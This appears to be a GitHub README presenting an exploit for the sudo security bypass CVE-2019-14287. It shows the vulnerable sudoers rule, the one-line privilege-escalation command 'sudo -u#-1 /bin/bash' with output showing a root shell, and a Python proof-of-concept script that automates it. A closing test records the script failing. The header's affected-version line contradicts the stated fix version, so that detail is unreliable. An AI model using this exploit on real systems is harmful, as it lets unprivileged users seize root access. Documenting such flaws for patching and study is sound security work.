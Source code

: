 ![](https://github.com/nu11secur1ty/Linux_hardening_and_security/blob/master/Sudo/logo/sudo_logo.png)
```
# Exploit Title : sudo 1.8.27 - Security Bypass
# Date : 2019-10-15
# Original Author: Joe Vennix
# Exploit Author : Mohin Paramasivam
# Version : Sudo <1.2.28
# Tested on Linux
# Credit : Joe Vennix from Apple Information Security found and analyzed the bug
# Fix : The bug is fixed in sudo 1.8.28
# CVE : 2019-14287
```
----------------------------------------------------------------------------------------

- Check for the user sudo permissions
```bash
sudo -l 
```
- User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash


- So user hacker can't run /bin/bash as root (!root)


User hacker sudo privilege in /etc/sudoers

# User privilege specification
```
root    ALL=(ALL:ALL) ALL
hacker ALL=(ALL,!root) /bin/bash
```
--------------------------------------------------------------------------------

- With ALL specified, user hacker can run the binary /bin/bash as any user

EXPLOIT: 
```bash
sudo -u#-1 /bin/bash
```
Example : 
```bash
hacker@kali:~$ sudo -u#-1 /bin/bash
root@kali:/home/hacker# id
uid=0(root) gid=1000(hacker) groups=1000(hacker)
root@kali:/home/hacker#
```
- Description :
Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv
`-u#-1` returns as `0` which is root's id

and /bin/bash is executed with root permission
Proof of Concept Code :

--------------------------------------------------------------------------------------

How to use :
python3 sudo_exploit.py

```python
#!/usr/bin/python3

import os

#Get current username

username = input("Enter current username :")


#check which binary the user can run with sudo

os.system("sudo -l > priv")


os.system("cat priv | grep 'ALL' | cut -d ')' -f 2 > binary")

binary_file = open("binary")

binary= binary_file.read()

#execute sudo exploit

print("Lets hope it works")

os.system("sudo -u#-1 "+ binary)
```
----------------------------------------------------------------------------------------------------
- Testing,  it is not working
```bash
$ python3 sudo.py
```
```
Enter current username :kurec
```

sh: 1: cannot create priv: Permission denied
sh: 1: cannot create binary: Permission denied
```
Lets hope it works
usage: sudo -h | -K | -k | -V
usage: sudo -v [-AknS] [-g group] [-h host] [-p prompt] [-u user]
usage: sudo -l [-AknS] [-g group] [-h host] [-p prompt] [-U user] [-u user] [command]
usage: sudo [-AbEHknPS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout] [-u user] [VAR=value] [-i|-s] [<command>]
usage: sudo -e [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout] [-u user] file ...
```
